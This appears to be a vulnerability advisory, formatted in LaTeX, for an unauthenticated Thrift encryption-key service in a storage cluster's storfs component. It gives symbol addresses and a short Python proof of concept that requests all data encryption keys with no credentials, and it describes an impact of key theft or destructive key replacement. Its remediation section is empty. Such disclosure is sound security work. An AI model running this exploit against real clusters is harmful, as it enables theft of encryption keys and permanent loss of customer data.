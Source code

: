 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
# nm storfs | c++filt -- confirmed symbols at 6.0.2b virtual addresses:

0x9ade70  T  StPlatformEncProcessor::process_getDataEncryptionKeys(...)
0x9ad880  T  StPlatformEncProcessor::process_setDataEncryptionKeys(...)
0x9aef60  T  StPlatformEncProcessor::process_getEncryptionLibVersion(...)
0x9ae450  T  StPlatformEncProcessor::process_loadEncryptionLib(...)
0x9af4f0  T  StPlatformEncProcessor::dispatchCall(TProtocol*, TProtocol*,
                  const string&, int, void*)  # string-match, no auth gate
0xa2b9e0  T  StPlatformEncDispatcher::getDataEncryptionKeys(HxEncryptionData&)
0x8c2910  T  StartNonBlockingEncServer(void*)
BSS:0x1bd0970  stNonBlockingEncServer  # global server object
\end{lstlisting}

\subsection*{Reproduction}

From any host with TCP access to the stCtlVM Thrift server port on the storage
management network:

\begin{lstlisting}[style=shell]
# Connect to the StPlatformEnc Thrift service and call getDataEncryptionKeys
# No credentials, session token, or client certificate required.
# Thrift binary protocol, method name "getDataEncryptionKeys", seqid=1.
python3 -c "
from thrift.transport import TSocket, TTransport
from thrift.protocol import TBinaryProtocol
# StPlatformEnc service (port varies by deployment; typically 9090 or 9091)
transport = TTransport.TBufferedTransport(TSocket.TSocket('<ctlvm_ip>', 9091))
protocol  = TBinaryProtocol.TBinaryProtocol(transport)
transport.open()
protocol.writeMessageBegin('getDataEncryptionKeys', 1, 1)
protocol.writeMessageEnd()
transport.flush()
# Response contains HxEncryptionData with all DEKs
"
\end{lstlisting}

\subsection*{Impact}

Full read and write access to all Data Encryption Keys for the cluster.
Exfiltration of DEKs defeats DARE. Replacement of DEKs renders all encrypted
volumes permanently inaccessible.

\subsection*{Remediation}
\end{document}
